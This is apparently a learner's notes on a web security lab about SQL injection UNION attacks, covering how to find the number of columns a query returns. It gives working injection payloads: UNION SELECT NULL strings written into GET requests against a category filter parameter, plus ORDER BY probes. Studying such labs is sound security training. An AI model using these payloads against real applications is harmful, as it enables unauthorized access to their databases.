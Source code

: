 # lab 3 : SQL injection UNION attack, determining the number of columns returned by the query


# End goal : display the data  of more columns data


### For a UNION query to work, two key requirements must be met:

    - The individual queries must return the same number of columns. 
    - The data types in each column must be compatible between the individual queries.

# (method:1)try the different palyloads to detect the no of columns!!!
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

# just add 'union select and go increasing NULL until getting 200ok

initial payload --> GET /filter?category=Pets'+UNION+select+NULL--
second payload --> GET /filter?category=Pets'+UNION+select+NULL,+NULL--
final payload--> GET /filter?category=Pets'+UNION+select+NULL,+NULL,+NULL--


# (metthon:2) -->

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

